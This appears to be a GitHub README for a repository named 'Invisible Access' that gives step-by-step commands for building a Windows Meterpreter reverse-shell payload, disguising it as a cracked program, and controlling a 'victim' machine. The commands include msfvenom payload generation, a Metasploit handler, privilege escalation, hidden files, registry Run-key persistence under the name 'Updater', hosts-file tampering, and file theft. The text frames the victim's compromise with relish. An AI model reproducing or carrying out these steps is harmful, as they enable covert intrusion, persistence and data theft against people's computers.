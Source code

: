 # Invisible Access
This repository is part of the 3HK initiative. It provides an experimental framework for generating custom payloads and demonstrating basic backdoor mechanisms.
The goal is to illustrate core concepts of access persistence, payload delivery, and post-exploitation techniques.
Alongside the scripts, you’ll find explanatory notes and sample files that serve as learning references.
```
Use it wisely. Or don’t.
```
👹 3HK

## Static Ip
### Basic step

1.    Install VMware Workstation or any other virtual Machine 
2.    download kali-linux-2025-W22-installer-amd64 *(ISO)*
3.    Create your own Machine

### VMware Settings

   1. Player -> Manage -> Virtual Machine Settings
   2. Network Adapter  -> Bridged : Connected directly to the physical Network
   3. select *_Replicate physical network connection state_*

### Point Acces Mobile (متاصل من هاتف)
```
 sudo nano /etc/network/interfaces
```
*  Write :
```
# The loopback network interface
auto lo
iface lo inet loopback
```
*  Now we go to *Resolv.conf*
```
sudo nano /etc/resolv.conf
```
*  Add your nameserver, exemple if ur ip is 192.168.42.50 put 
```
nameserver 192.168.42.1
```
*  ⚠️**Restart your pc**

### WIFI
```
 sudo nano /etc/network/interfaces
```
	Clear the previous two lines of *Point Acces Mobile (متاصل من هاتف)*
	add these lines and dont forget to change *XXX* to a number between 1 to 255.
```
auto eth0
iface eth0 inet static
    address 192.168.1.XXX
    netmask 255.255.255.0
    gateway 192.168.1.1
```
*  Now we go to **Resolv.conf**
```
sudo nano /etc/resolv.conf
```
*  Add these domains 
```
nameserver 8.8.8.8
nameserver 8.8.4.4
nameserver 1.1.1.1
```
*  ⚠️**Restart your pc**

## Download Tools

**Metasploit**
```
sudo apt install metasploit-framework
```
**ps2exe**
*  run PowerShell as an administrator
```
Find-Module -Name PowerShellGet | Install-Module 
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
Install-Module -Name ps2exe
```
## Command line

*  Here u gonne find all command u need, we started with Created Payload
```
Cd Desktop
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={YOUR IP} LPORT={YOUR PORT 8080 or 4444 ...} -f exe -o {Name of your Payload}.exe
```
   **Compression of Payload**
```
tar -czvf {Compressed file name}.tar.gz {Name of your Payload}.exe
```
   **Create a Malware backdoor**

   *  Download my file _Crack.ps1_
  *  Edit the file to suit your Payload.

   **Convert file powershell (.Ps1) to Exe**
   1.    Run Powershell.
   2.    Go to the file location.
   3.    Command line (Change name *crack* to your)
```
Invoke-ps2exe .\crack.ps1 .\crack.exe -noConsole
```

### Metasploit
  *  Now with the moment awaited to hack the victim 🗡
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST {YOUR IP}
set LPORT {YOUR PORT 8080 or 4444 ...}
run
```
This is the quiet before the breach *_msfconsole_* is loaded. *Payload* deployed,
Metasploit doesn’t knock — it walks in, one click, one exploit... and they’re mine 🗡
After they made the mistake :)
``` 
Sessions -i
```
   **Chose the sessions of your victime example 1**
```
sessions 1
getuid   | يعرض المستخدم الحالي
getsystem  | أخد صلاحية System
```
   **Hide files, change your file link if you change it**
```
execute -f cmd.exe -a "/c attrib +h +s C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\{Name of your Payload}.exe"

execute -f cmd.exe -a "/c attrib +h +s C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\{Name of your Backdoor crack}.exe"
```
   **Create the file in the registry**
```
reg setval -k "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" -v "Updater" -d "C:\\Users\\Administrator\\AppData\\Roaming\\{Name of your Payload}.exe"
```
   **Block Website**
```
execute -f cmd.exe -a "/c echo 127.0.0.1 {PUT LINK OF WEBSITE U WANT TO BLOCK}.com >> C:\\Windows\\System32\\drivers\\etc\\hosts"
```
   **Kill Programe (Stop Running)**
```
execute -f cmd.exe -a "/c taskkill /{PROGRAM NAME}.exe /F"
```
   **Upload the file to the victim's pc**
```
upload /home/xxxx/Desktop/YYY
```
  *  xxxx : name of ur folder (link)
  *  YYY  : name of file 

 **Download file from victim's pc**
*  access the file do you want to take from it
```
Download FILE_NAME
```
 
## Tutorial Video 
[![3HK- Rosetta Stone](https://user-images.githubusercontent.com/47686437/168548113-b3cd4206-3281-445b-b7c6-bc0a3251293d.png)](https://www.youtube.com/)







